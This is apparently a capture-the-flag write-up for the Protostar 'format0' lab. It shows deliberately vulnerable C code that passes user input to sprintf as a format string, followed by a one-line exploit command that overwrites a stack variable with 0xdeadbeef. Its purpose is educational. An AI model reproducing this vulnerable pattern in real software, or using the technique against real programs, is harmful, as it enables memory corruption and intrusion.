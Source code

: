 # **format0**
## Source code
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void vuln(char *string)
{
  volatile int target;
  char buffer[64];

  target = 0;

  sprintf(buffer, string);
  
  if(target == 0xdeadbeef) {
      printf("you have hit the target correctly :)\n");
  }
}

int main(int argc, char **argv)
{
  vuln(argv[1]);
}
```

## Vulnerability
sprintf()

## Exploit
```
user@protostar:/opt/protostar/bin$ ./format0 $(python -c "print('%64d' + '\xef\xbe\xad\xde')")
you have hit the target correctly :)
```

# References
- Format specifier: https://www.cplusplus.com/reference/cstdio/printf/